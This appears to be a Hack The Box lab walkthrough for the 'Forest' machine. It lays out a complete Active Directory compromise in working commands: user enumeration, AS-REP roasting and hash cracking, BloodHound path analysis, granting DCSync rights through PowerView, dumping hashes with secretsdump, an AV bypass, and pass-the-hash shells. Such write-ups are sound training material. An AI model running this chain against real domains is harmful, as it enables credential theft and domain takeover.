---
---

# HTB - Forest

```bash
nmap 10.129.95.210 -A

```



- Looks like this could be the DC (Kerberos)
- Got the domain from ldap - **htb.local**

- Port 445 SMB is open
- Enumerate with enum4linux

```bash
enum4linux 10.129.95.210

```
- Found users:






- <u>Can also use LDAP to enumerate:</u>

```bash
ldapsearch -H ldap://10.129.95.210 -x -s base -b '' "(objectClass=*)" "*" +
```



```bash
ldapsearch -H ldap://10.129.95.210 -x -b "DC=htb,DC=local" | grep "dn: CN=" | grep "OU="
```



<https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/>

- Add users in a file (**users**)

- Check if usernames are valid:

```bash
kerbrute userenum --dc 10.129.95.210 -d htb.local users -o validusers.txt

```



- Vind vulnerable users:

```bash
impacket-GetNPUsers htb.local/ -users users -no-pass -dc-ip 10.129.95.210

```



- Save the whole hash to a file and use hashcat:

```bash
hashcat -m 18200 --force -a 0 hash.txt /usr/share/wordlists/rockyou.txt

```



Got credentials for a service account.

- Test with CME:

```bash
crackmapexec smb 10.129.95.210 -u svc-alfresco -p <password>

```



- Remote using WinRM:

```bash
evil-winrm -i 10.129.95.210 -u svc-alfresco -p <password>

```






**<u>Priv Esc:</u>**

```bash
whoami /all

```



- Part of the:
**BUILTIN\Account Operators**

The Account Operators group grants limited **account creation privileges** to a user.

Members of this group can create and modify most types of accounts, including accounts for users, Local groups, and Global groups.

Group members can log in locally to domain controllers

- Upload Sharphound:

```bash
upload SharpHound.exe

```
- Run Sharphound:

```bash
.\SharpHound.exe --CollectionMethods All --Domain htb.local --ZipFileName loot.zip

```
- Download the loot.zip file:

```bash
download 20240205024401_loot.zip

```
- Start Neo4j:

```bash
sudo neo4j console

```
- Open Bloodhound
Drag and drop the loot.zip file into bloodhound

Click on - **Find Shortest Paths to Domain Admins**




If there is loads of old data in bloodhound:

Connect to the neo4j browser gui <http://localhost:7474>

Run:

```bash
MATCH (n)

DETACH DELETE n;

```






- **The user svc-alfresco is part of the Account Operators group**




- Click on the Account Operators node and Reachable High Value Targets









- Account operators has GenericAll to the Exchange Windows Permissions



- And that in turn has WriteDACL to the HTB.LOCAL



- HTB.LOCAL is the domain so we know that all accounts are part of it ie. Administrator

- And clicking on the Domain Admins' node - We can see that Administrator account is a part of that group.
And we need DA

- **<u>To exploit:</u>**

- Create a new user (tooby):

```bash
net user tooby Password123! /add /domain

```
- Add to the group Exchange Windows Permissions

```bash
net group "Exchange Windows Permissions" tooby /add

```
- Open the menu in evil-winrm:

```bash
menu

```



- Use Bypass-4MSI - To bypass AV



- Upload PowerView.ps1 and run it:
  upload PowerView.ps1

```powershell
  . .\PowerView.ps1
  $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
  $Cred = New-Object System.Management.Automation.PSCredential('htb\tooby', $SecPassword)
  Add-DomainObjectAcl -PrincipalIdentity tooby -Credential $Cred -Rights DCSync
```

- User tooby has DCSync rights now

- Run a DCSync to get hashes:

```bash
impacket-secretsdump htb/tooby:'Password123!'@10.129.95.210 -dc-ip 10.129.95.210
```



- Got htb.local\Administrator hash

- **<u>Get shell:</u>**

- <u>Psexec:</u>

```bash
impacket-psexec htb/administrator@10.129.95.210 -hashes "<password_hash>"
```






- <u>Evil-WinRM:</u>

```bash
evil-winrm -i 10.129.95.210 -u administrator -H "<second_half_of_hash>"
```



